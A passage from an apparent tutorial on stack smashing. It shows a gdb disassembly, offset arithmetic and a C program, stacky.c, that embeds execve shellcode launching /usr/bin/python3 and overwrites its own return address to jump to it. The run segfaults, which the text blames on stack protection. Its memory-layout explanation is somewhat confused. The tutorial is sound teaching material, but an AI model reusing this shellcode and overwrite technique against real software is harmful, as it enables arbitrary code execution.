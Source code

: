         0x000055555555520c <+59>:	mov    -0x10(%rbp),%rax
        0x0000555555555210 <+63>:	mov    %eax,%edx
        0x0000555555555212 <+65>:	mov    -0x4(%rbp),%eax
        0x0000555555555215 <+68>:	add    %edx,%eax
        0x0000555555555217 <+70>:	mov    %eax,-0x4(%rbp)
        0x000055555555521a <+73>:	mov    -0x4(%rbp),%eax
        0x000055555555521d <+76>:	mov    %eax,%esi
        0x000055555555521f <+78>:	lea    0xdde(%rip),%rax        # 0x555555556004
        0x0000555555555226 <+85>:	mov    %rax,%rdi
        0x0000555555555229 <+88>:	mov    $0x0,%eax
        0x000055555555522e <+93>:	call   0x555555555030 <printf@plt>
        0x0000555555555233 <+98>:	mov    $0x0,%eax
        0x0000555555555238 <+103>:	leave
        0x0000555555555239 <+104>:	ret
    End of assembler dump.
    (gdb) p 0x7fffffffe048 - 0x7fffffffdfec
    $4 = 92
    (gdb) p 92 / 4
    $5 = 23

We correct the constant `X` in the program to the value 23, compile the program and run it again.

    nano stacky.c

    #include <stdio.h>

    #define X 23

    int callme(int a, unsigned long *b){
        unsigned long *f;
        char program[64] = "\353\016_H1\366H1\322H1\300\260;\017\005\350\355\377\377\377/usr/bin/python3";
        f = (unsigned long*)(&a + X);   // Override return address.
        *f = (unsigned long)&(program[0]);
        return a + *b;
    }

    int main(){
        int c, d;
        unsigned long e;
        c = 5;
        d = 3;
        e = c + d;              // e == 8
        e = callme(d, &e);              // e == 11
        c = c + e;                              // c == 16
        printf("c: %d\n", c);   
        return 0;
    }

    gcc stacky.c -g -o stacky
    ./stacky

    Segmentation fault

The program returns a `Segmentation fault`, which is the result of protection against overwriting the return addresses. To recap, each program has its own section of memory, where the program code is at the top, then the constants, and a stack for dynamically storing local variables that grows downward, then we have some free memory, and finally at the bottom we have a stack that grows upward and the `rsp` register points to its top. Operating systems contain [Stack-smashing protection](https://en.wikipedia.org/wiki/Buffer_overflow_protection):
